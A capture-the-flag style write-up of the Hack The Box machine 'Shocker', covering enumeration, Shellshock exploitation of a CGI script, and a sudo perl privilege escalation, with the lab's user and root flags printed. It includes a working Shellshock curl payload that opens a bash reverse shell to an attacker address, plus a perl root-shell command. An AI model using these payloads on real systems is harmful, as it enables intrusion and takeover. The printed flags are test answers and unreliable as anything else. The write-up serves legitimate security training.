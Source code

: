```yaml
---
title: "HTB - Shocker"
author: "Anubhavsingh Sawdagur"
date: "2021-04-25"
subject: "Markdown"
subtitle: "10.10.10.56"
lang: "en-GB"
book: true
classoption: oneside
code-block-font-size: \scriptsize   
output: 
  pdf_document:
    fig_caption: FALSE
---
```


# Shocker - 10.10.10.56

# Enumeration

## Nmap

```bash
nmap -sC -sV -oA nmap/initial 10.10.10.56 
```

```bash
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-25 22:13 EDT
Nmap scan report for 10.10.10.56
Host is up (0.24s latency).
Not shown: 998 closed ports
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site does not have a title (text/html).
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 46.91 seconds
```

The Ubuntu version is most likely **Xenial**, source: [https://packages.ubuntu.com/search?keywords=apache2](https://packages.ubuntu.com/search?keywords=apache2)

<img src="Shocker.assets/image-20210425225756592.png" alt="image-20210425225756592" style="zoom:67%;" />

## Gobuster

```bash
gobuster dir -t 30 -w /usr/share/seclists/Discovery/Web-Content/common.txt -u http://10.10.10.56 -o log/gobuster.out 
```

<img src="Shocker.assets/image-20210425225231743.png" alt="image-20210425225231743" style="zoom:67%;" />

The directory **/cgi-bin/** is used when apache gives a certain tasks to a scripting language such as Bash, Python.

The status 403 just means that the directory is present but the attacker does not have access to it.

![](Shocker.assets/image-20210425230223506.png)

This indicates that a shellshock attack can be used, given the name of the machine is also shocker.

```bash
gobuster dir -t 30 -w /usr/share/seclists/Discovery/Web-Content/common.txt -u http://10.10.10.56/cgi-bin -x sh,py,txt,pl -o log/gobuster_cgi-bin.out
```

Even if an attacker cannot list the contents of the **/cgi-bin/** directory, the files can still be accessed if the name of the file is known.

Gobuster is being ran with several extensions to find if there are any files present. 

<img src="Shocker.assets/image-20210425230918395.png" alt="image-20210425230918395" style="zoom: 67%;" />

The file **user.sh** is found in the **/cgi-bin/** directory. On going to the file, the attacker is prompted to download dialog.

<img src="Shocker.assets/image-20210425231530638.png" alt="image-20210425231530638" style="zoom:67%;" />

The content of **user.sh** looks to be the output of the bash command **uptime**

<img src="Shocker.assets/image-20210425231801722.png" alt="image-20210425231801722" style="zoom:80%;" />

# Exploitation

## Shellshock

### **Vulnerability Explanation:**

Shellshock, also known as Bashdoor, is a family of security bugs in the  widely used Unix Bash shell, the first of which was disclosed on 24  September 2014. Many Internet-facing services, such as some web server  deployments, use Bash to process certain requests, allowing an attacker  to cause vulnerable versions of Bash to execute arbitrary commands. This can allow an attacker to gain unauthorized access to a computer system.

source: [https://github.com/opsxcq/exploit-CVE-2014-6271](https://github.com/opsxcq/exploit-CVE-2014-6271)

Upon testing a shellshock exploitation payload, it is concluded the web server is **vulnerable to the shellshock attack**. 

```bash
curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'echo I was here'" "http://10.10.10.56/cgi-bin/user.sh"
```

![](Shocker.assets/image-20210425232500964.png)

### Getting a reverse shell

The tools used here to generate quick  reverse shell is called [rsg or reverse shell generator](https://github.com/mthbernardes/rsg)

```bash
# generates payload and as well as listens on the specified port
rsg 10.10.14.23 8888 bash 
# make the server connect back to the attacker using shellshock payload with bash reverse shell
curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'bash -i >& /dev/tcp/10.10.14.23/8888 0>&1'" "http://10.10.10.56/cgi-bin/user.sh" 
```

![](Shocker.assets/image-20210426000718594.png)

A reverse shell is obtained as the user **shelly**. 

![](Shocker.assets/image-20210426011418915.png)

### User.txt

**User.txt** can be found in the home directory of **shelly**.

![](Shocker.assets/image-20210426011945515.png)

> user.txt: 4ddc9c1abd1d367712b3dd434eaf1a9b

## Privilege Escalation to Root

### Root.txt

The user shelly can execute perl as root

```bash
sudo -l
```

```
Matching Defaults entries for shelly on Shocker:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl
```

![](Shocker.assets/image-20210426012413725.png)

### **Vulnerability Explanation:**

Going to [gtfobins](https://gtfobins.github.io/gtfobins/), and searching for **perl**, it can be found that, perl can be used to spawn a shell.
Running perl as root, the attacker can break out from the restricted environment.

source: [https://gtfobins.github.io/gtfobins/perl/](https://gtfobins.github.io/gtfobins/perl/)

<img src="Shocker.assets/image-20210426012904228.png" alt="image-20210426012904228" style="zoom:67%;" />

```bash
sudo -l
sudo /usr/bin/perl -e 'exec "/bin/bash";'
whoami
```

![](Shocker.assets/image-20210426013049169.png)

the **root.txt** file is always located in **/root/**

![](Shocker.assets/image-20210426013339340.png)

> root.txt: 8d54789661e7e922780f49e1e2bfded1